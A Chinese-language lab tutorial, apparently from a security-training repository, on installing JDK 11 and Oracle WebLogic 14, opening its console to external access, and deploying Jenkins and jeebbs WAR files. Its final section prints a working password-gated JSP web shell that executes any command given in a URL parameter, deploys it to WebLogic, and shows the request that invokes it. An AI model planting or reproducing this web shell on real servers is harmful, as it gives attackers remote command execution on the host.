





# weblogic

​	WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

​	WebLogic是美商Oracle的主要产品之一，是并购BEA得来。是商业市场上主要的Java（J2EE）应用服务器软件（application server）之一，是世界上第一个成功商业化的J2EE应用服务器, 已推出到12c(12.2.1.4) 版。而此产品也延伸出WebLogic Portal，WebLogic Integration等企业用的中间件（但当下Oracle主要以Fusion Middleware融合中间件来取代这些WebLogic Server之外的企业包），以及OEPE(Oracle Enterprise Pack for Eclipse)开发工具。	

## 准备工作

1.VirtualBox虚拟机

2.weblogic for windows安装包

3.jdk安装包

4.war包源码或者Java项目包

## 安装JDK11

下载地址：https://www.oracle.com/java/technologies/javase/jdk11-archive-downloads.html

  1.双击jdk-11.0运行安装程序并点击下一步

 

2.选择安装位置以及功能这里我们保持默认

 

3.开始安装

 

## 安装Weblogic

下载地址：https://www.oracle.com/middleware/technologies/fusionmiddleware-downloads.html

1.解压weblogic安装文件（fmw_14.1.1.0.0_wls_lite_Disk1_1of1.zip）


2.打开powershell或者cmd，输入命令开始安装

```tex
java -jar .\fmw_14.1.1.0.0_wls_lite_generic.jar
```


3.在弹出的欢迎使用界面点击下一步

 

4.自动更新设置，一般来说在生产环境下一般是要确认更新到同一版本同一补丁，实验环境使用默认跳过自动更新即可


5.选择安装主目录，正常应该避免放到C盘，实验环境直接下一步


6.安装类型选择Weblogic Server，Coherence是集群化使用的。


7.先决条件检查，检查系统版本及JDK版本，通过后直接下一步


8.安装概要，直接下一步，响应文件为debug使用，正常安装不需要查看，直接点击安装



9.安装进行中，时间比较长，完成后点击下一步


10.安装完成，点击完成后会打开自动配置向导


11.域配置，选择创建新域，域位置可以自行选择。实验环境保持默认即可


12.模板设置为了保证各种功能，所以全选即可

 

13.设置管理员账号和密码

 

14.设置域模式和jdk。开发模式启用自动部署，生产模式关闭自动部署，生产模式是为保证速度快放在指定目录下，他的包不会自动更新。开发模式是比较自由的，它保证开发灵活性，随便把它扔哪里都会自动更新，这样会影响速度。一般地开发好的产品，都给客户用生产模式部署，实验环境选择开发模式也可以。jdk会自己检测，默认即可。

 

15.高级配置为了保证功能完整性全选即可。

 

16.管理服务器可以自定义名称端口等，这里保持默认即可，也可以自修改，由于没有证书，ssl(https)就放弃勾选了

 

17.节点管理器需要设置账号密码，注意密码复杂度要求

 

18.受管服务器没有可以留空

 

19.集群没有也可以留空

 

20.服务器模板和第二项设置相同，无集群的话留空直接下一步即可

 

21.Coherence集群设置保持默认端口即可


22.计算机设置作用是设置节点计算机，直接下一步


23.部署清单，直接下一步即可


24.服务清单，直接下一步即可


25.文件储存及同步配置，保持默认即可

 

26.配置清单及文件位置，点击创建即可开始配置


27.配置进度走完点击下一步

 

28.配置成功，显示域位置以及网页管理地址

 

29.双击打开

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd 
```


30.**最小化cmd，浏览器打开http://127.0.0.1:7001/console  ,进入控制台**


31.配置控制台外部ip访问（生产环境禁用，和tomcat类似，极易产生安全风险）

(1)登录控制台


(2)点击左侧域结构导航栏中的环境，选择服务器


(3)点击AdminServer (管理)，进入配置界面


(4)监听地址填入0.0.0.0后点击保存



(5)设置完成


(6)在外部机器上使用firefox即可访问


## 部署jenkins项目（war包）

(1)点击左侧域结构导航栏中的部署，点击安装


(2)选定war包位置点击下一步

 

(3)安装类型选择将此部署安装为应用程序

 

(4)安装应用程序辅助程序处按照实际情况进行设置，实验环境可以直接下一步

 

(5)点击完成按钮完成部署

 

(6)查看已安装配置然后点击保存


(7)访问http://ip:7001/jenkins即可

**由于性能问题，部署项目可能会出现503的现象，尤其是设置监听地址0.0.0.0后，也可能出现启动weblogic出现“unicast networking appears to be inoperable on interface 0.0.0.0 as this process isn't receiving even its own transmissions”。**


**解决方案是**：

先删除文件夹

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains
```


再双击新建域就好了，新建以后直接部署web项目即可。

```
C:\Oracle\Middleware\Oracle_Home\oracle_common\common\bin\config.cmd
```


## 部署jeebbs项目

1.点击左侧域结构导航栏中的部署，点击安装

 

2.选定web应用主目录（不要点击打开目录)

 

3.安装应用程序辅助程序处按照实际情况进行设置，实验环境可以直接下一步

 

4.点击完成按钮完成部署

 

5.查看已安装配置然后点击保存

 

6.访问http://127.0.0.1:7001/ROOT即可打开

**由于性能问题，部署项目可能会出现503的现象，尤其是设置监听地址0.0.0.0后，也可能出现启动weblogic出现“unicast networking appears to be inoperable on interface 0.0.0.0 as this process isn't receiving even its own transmissions”。**


**解决方案是**：

先删除文件夹

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains
```

再双击新建域就好了，新建以后直接部署web项目即可。

```
C:\Oracle\Middleware\Oracle_Home\oracle_common\common\bin\config.cmd
```


## 部署jsp一句话木马

1.jsp一句话木马

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

 

2.生成war包后部署在weblogic上

 

 

3.部署完成后访问http://ip:prot/shell/1.jsp?pwd=023&i=whoami

 


